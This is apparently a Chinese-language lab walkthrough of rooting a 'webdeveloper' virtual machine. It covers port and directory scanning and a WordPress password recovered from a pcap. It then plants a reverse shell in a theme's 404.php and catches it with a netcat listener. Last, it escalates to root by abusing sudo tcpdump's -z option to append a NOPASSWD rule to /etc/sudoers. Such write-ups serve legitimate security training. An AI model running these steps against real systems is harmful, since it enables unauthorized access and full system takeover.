




## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p22,80 192.168.10.26
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-25 02:34 EDT
Nmap scan report for 192.168.10.26
Host is up (0.0013s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d2:ac:73:4c:17:ec:6a:82:79:87:5a:f9:22:d4:12:cb (RSA)
|   256 9c:d5:f3:2c:e2:d0:06:cc:8c:15:5a:5a:81:5b:03:3d (ECDSA)
|_  256 ab:67:56:69:27:ea:3e:3b:33:73:32:f8:ff:2e:1f:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 4.9.8
|_http-title: Example site &#8211; Just another WordPress site
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 00:0C:29:D7:60:54 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.69 seconds
```

## web渗透

### 目录扫描

```bash
┌──(kali㉿kali)-[~]
└─$ dirb http://192.168.10.26

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sat May 25 11:09:16 2024
URL_BASE: http://192.168.10.26/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.10.26/ ----
+ http://192.168.10.26/index.php (CODE:301|SIZE:0)
==> DIRECTORY: http://192.168.10.26/ipdata/
+ http://192.168.10.26/server-status (CODE:403|SIZE:278)
==> DIRECTORY: http://192.168.10.26/wp-admin/
==> DIRECTORY: http://192.168.10.26/wp-content/
==> DIRECTORY: http://192.168.10.26/wp-includes/
+ http://192.168.10.26/xmlrpc.php (CODE:405|SIZE:42)

---- Entering directory: http://192.168.10.26/ipdata/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.10.26/wp-admin/ ----
+ http://192.168.10.26/wp-admin/admin.php (CODE:302|SIZE:0)
==> DIRECTORY: http://192.168.10.26/wp-admin/css/
==> DIRECTORY: http://192.168.10.26/wp-admin/images/
==> DIRECTORY: http://192.168.10.26/wp-admin/includes/
+ http://192.168.10.26/wp-admin/index.php (CODE:302|SIZE:0)
==> DIRECTORY: http://192.168.10.26/wp-admin/js/
==> DIRECTORY: http://192.168.10.26/wp-admin/maint/
==> DIRECTORY: http://192.168.10.26/wp-admin/network/
==> DIRECTORY: http://192.168.10.26/wp-admin/user/

---- Entering directory: http://192.168.10.26/wp-content/ ----
+ http://192.168.10.26/wp-content/index.php (CODE:200|SIZE:0)
==> DIRECTORY: http://192.168.10.26/wp-content/plugins/
==> DIRECTORY: http://192.168.10.26/wp-content/themes/
==> DIRECTORY: http://192.168.10.26/wp-content/uploads/

---- Entering directory: http://192.168.10.26/wp-includes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.10.26/wp-admin/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.10.26/wp-admin/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.10.26/wp-admin/includes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.10.26/wp-admin/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.10.26/wp-admin/maint/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.10.26/wp-admin/network/ ----
+ http://192.168.10.26/wp-admin/network/admin.php (CODE:302|SIZE:0)
+ http://192.168.10.26/wp-admin/network/index.php (CODE:302|SIZE:0)

---- Entering directory: http://192.168.10.26/wp-admin/user/ ----
+ http://192.168.10.26/wp-admin/user/admin.php (CODE:302|SIZE:0)
+ http://192.168.10.26/wp-admin/user/index.php (CODE:302|SIZE:0)

---- Entering directory: http://192.168.10.26/wp-content/plugins/ ----
+ http://192.168.10.26/wp-content/plugins/index.php (CODE:200|SIZE:0)

---- Entering directory: http://192.168.10.26/wp-content/themes/ ----
+ http://192.168.10.26/wp-content/themes/index.php (CODE:200|SIZE:0)

---- Entering directory: http://192.168.10.26/wp-content/uploads/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Sat May 25 11:09:37 2024
DOWNLOADED: 32284 - FOUND: 12
```
 
### 流量分析

发现了一个cap文件，file一下发现是pcap文件
wireshark打开

得到密码了
Te5eQg&4sBS!Yr$)wf%(DcAd

### 写入shell

改主题404.php文件，写入反弹shell
但是也不知道咋弹回来的，试了好久没弹出来
但是一会儿后莫名其妙又有了

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.10.12] from (UNKNOWN) [192.168.10.26] 54234
Linux webdeveloper 4.15.0-38-generic #41-Ubuntu SMP Wed Oct 10 10:59:38 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 15:40:51 up 35 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1031): Inappropriate ioctl for device
bash: no job control in this shell
www-data@webdeveloper:/$ whoami
whoami
www-data
```

## 提权


找到wordpress的配置文件
webdeveloper/MasterOfTheUniverse
得到如上身份信息
切换到webdeveloper用户
```bash
webdeveloper@webdeveloper:/tmp$ sudo -l
Matching Defaults entries for webdeveloper on webdeveloper:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webdeveloper may run the following commands on webdeveloper:
    (root) /usr/sbin/tcpdump
```
有tcpdump的sudo
tcpdump可以-z指定执行脚本，-Z指定用户
修改用户sudo权限提权
/bin/echo "webdeveloper ALL=(ALL) NOPASSWD:ALL"  >> /etc/sudoers

```bash
webdeveloper@webdeveloper:/tmp$ cat /etc/sudoers
cat: /etc/sudoers: Permission denied
webdeveloper@webdeveloper:/tmp$ echo '/bin/echo "webdeveloper ALL=(ALL) NOPASSWD:ALL"  >> /etc/sudoers' >shell.sh
webdeveloper@webdeveloper:/tmp$ cat shell.sh
/bin/echo "webdeveloper ALL=(ALL) NOPASSWD:ALL"  >> /etc/sudoers
webdeveloper@webdeveloper:/tmp$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/shell.sh -Z root
dropped privs to root
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
20 packets received by filter
0 packets dropped by kernel
webdeveloper@webdeveloper:/tmp$ sudo -l
Matching Defaults entries for webdeveloper on webdeveloper:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webdeveloper may run the following commands on webdeveloper:
    (root) /usr/sbin/tcpdump
    (ALL) NOPASSWD: ALL
webdeveloper@webdeveloper:/tmp$ sudo su
root@webdeveloper:/tmp#
```